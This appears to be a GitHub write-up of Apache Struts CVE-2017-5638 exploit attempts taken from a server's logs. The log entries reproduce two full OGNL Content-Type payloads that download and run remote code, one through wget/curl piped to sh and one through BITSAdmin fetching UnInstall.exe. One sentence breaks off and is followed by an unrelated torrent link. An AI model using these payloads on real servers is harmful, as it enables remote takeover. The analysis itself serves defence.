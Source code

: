 # Struts Exploit

## Summary
While looking through the logs of one of our servers, we encountered these entries, spaced one second apart.

I downloaded the binaries from the urls listed in the exploit attempts. I downloaded two files, one from each of the drive-by exploit attempts. The first URL was targeted towards Linux Based systems, and the second was targeting Windows based systems. They are both attempting to exploit a recently discovered vulnerability in the Apache Struts MVC framework. 

Brief Description of Apache Struts Vulnerability -- CVE-2017-5638:
Written in Java, leverages a vulnerability in the Jakarta Multipart parser. When an invalid value is placed in the Content-Type header, an exception is thrown. The exception is used to display the error to the user. Attackers exploit this vulnerability to escape the data scope into the execution scope through the Content-Type Header. 67% of the attacks come from China, 17% from the US, 6% from Taiwan, and 5% from Hong Kong.
https://www.impervia.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/


The IP we recorded was from China, and has a risk score of 5. As of today: March 26, 2017: It has an AS number of 4134
https://www.dshield.org/ipinfo.html?ip=220.191.231.222
The attempts were executed at 06:19:02 UTC, from the locale of the origin IP address, was 14:00 CST.

This ip address sent two packets, which would download from two different ip addresses, embedded in the modified Content-Type header field. The first was targeted towards systems built on *nix based servers, and the second was targeted towards systems built on Windows based servers

I downloaded the `a` script from the ip address 65.254.63.20, and received a shell script. The first thing it does is to add the present working directory for instance to the path.

The second contains a binary named `UnInstall.exe`. The 
https://thepiratebay.org/torrent/16135858/The_Elder_Scrolls_V_Skyrim_Special_Edition-CODEX

## Log Entries
```
---BEGIN---
    Wed Mar 22 2017 06:19:02 GMT+0000 (UTC)
    New Connection 220.191.231.222 -> ###.###.###.###
    User Agent: Mozilla/5.0
    Requested Resource: /
    Request Method: GET
    Accept: undefined
    Content Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget -qO - http://65.254.63.20/a|sh ; rm -rf a ; curl -O http://65.254.63.20/a ; sh a ').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
    Content Length: undefined
---BEGIN---
    Wed Mar 22 2017 06:19:02 GMT+0000 (UTC)
    New Connection 220.191.231.222 -> ###.###.###.###
    User Agent: Mozilla/5.0
    Requested Resource: /
    Request Method: GET
    Accept: undefined
    Content Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='BITSAdmin.exe /Transfer JOB http://82.165.129.119/UnInstall.exe %TEMP%/UnInstall.exe & %TEMP%/UnInstall.exe').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
    Content Length: undefined
```



## See Also
[The exploit in a python script](https://www.exploit-db.com/exploits/41570/)

